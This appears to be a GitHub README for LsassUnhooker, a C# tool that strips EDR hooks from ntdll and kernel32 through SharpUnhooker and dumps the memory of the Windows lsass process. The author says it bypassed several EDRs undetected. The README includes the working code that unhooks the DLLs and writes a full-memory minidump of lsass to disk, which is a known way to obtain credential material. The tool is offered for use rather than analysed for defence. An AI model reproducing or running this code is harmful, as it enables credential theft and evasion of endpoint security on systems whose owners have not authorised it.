 # LsassUnhooker
Little program written in C# to bypass EDR hooks and dump the content of the lsass process. The code makes use of [SharpUnhooker](https://github.com/GetRektBoy724/SharpUnhooker).

This project, created by GetRektBoy724, works the following way:

1.  It reads and copies the `.text section` of the original (in-disk) DLL using "PE parser stuff"
2.  It patches the `.text section` of the loaded DLL using `Marshal.Copy` and `NtProtectVirtualMemory` from D/Invoke (to changes the permission of the memory)
3.  It checks the patched in-memory DLL by reading it again and compare it with the original one to see if its correctly patched.

By just using SharpUnhooker and the MiniDumpWriteDump function, I was able to bypass multiple EDRs and managed to dump the content of lsass without being detected. This is the code that does the trick:

```csharp
SilentUnhooker("ntdll.dll");
SilentUnhooker("kernel32.dll");
String dumpFileName = Directory.GetCurrentDirectory() + "\\" + "lsass.dmp";
if (System.IO.File.Exists(dumpFileName))
{
	System.IO.File.Delete(dumpFileName);
}
IntPtr hFile = NativeMethods.CreateFile(dumpFileName, NativeMethods.EFileAccess.GenericWrite, NativeMethods.EFileShare.None, lpSecurityAttributes: IntPtr.Zero, dwCreationDisposition: NativeMethods.ECreationDisposition.CreateAlways, dwFlagsAndAttributes: NativeMethods.EFileAttributes.Normal, hTemplateFile: IntPtr.Zero);
NativeMethods._MINIDUMP_TYPE dumpType = NativeMethods._MINIDUMP_TYPE.MiniDumpWithFullMemory;
var proc = Process.GetProcessesByName("lsass").FirstOrDefault();
var exceptInfo = new NativeMethods.MINIDUMP_EXCEPTION_INFORMATION();
var result = NativeMethods.MiniDumpWriteDump(proc.Handle, proc.Id, hFile, dumpType, ref exceptInfo, UserStreamParam: IntPtr.Zero, CallbackParam: IntPtr.Zero);
if (result == true) {
	Console.WriteLine("lsass process was successfully dumped in " + Directory.GetCurrentDirectory() + "\\" + "lsass.dmp");
}
else {
	Console.WriteLine("Error dumping lsass process");
}
```

## Example
https://user-images.githubusercontent.com/6664528/123254614-29e3cf80-d4ef-11eb-8c80-882e12cbd1b3.mp4
